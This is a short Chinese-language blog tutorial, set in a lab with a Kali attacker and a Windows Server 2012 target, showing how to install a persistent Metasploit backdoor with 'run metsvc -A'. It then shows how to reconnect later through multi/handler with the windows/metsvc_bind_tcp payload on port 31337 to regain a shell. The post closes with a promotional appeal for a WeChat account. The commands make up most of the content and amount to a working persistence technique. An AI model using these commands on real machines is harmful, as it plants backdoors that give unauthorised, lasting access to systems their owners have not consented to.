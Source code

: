 ```yaml
---
layout: post
category: binghe-code-hack
title: kali Metasploit设置永久访问权限
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit设置永久访问权限
lock: need
---
```


# Metasploit设置永久访问权限

攻击机： Kali 192.168.75.10

靶机： Windows Server 2012 192.168.75.130

此前提是经过一系列的渗透，已成功渗透靶机。

设置永久访问权限，需要在Meterpreter命令行中运行如下命令：

```
run metsvc -A
```

![img](https://img-blog.csdnimg.cn/20190115155420509.png)

当我们下次需要访问靶机的时候，只需要在攻击机上执行如下操作：

```
msfconsole
use exploit/multi/handler
set payload windows/metsvc_bind_tcp
set RHOST 192.168.75.130
set LPORT 31337
exploit
```

![img](https://img-blog.csdnimg.cn/20190115155455181.png)

看到，我们已经成功拿到Shell。

# 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
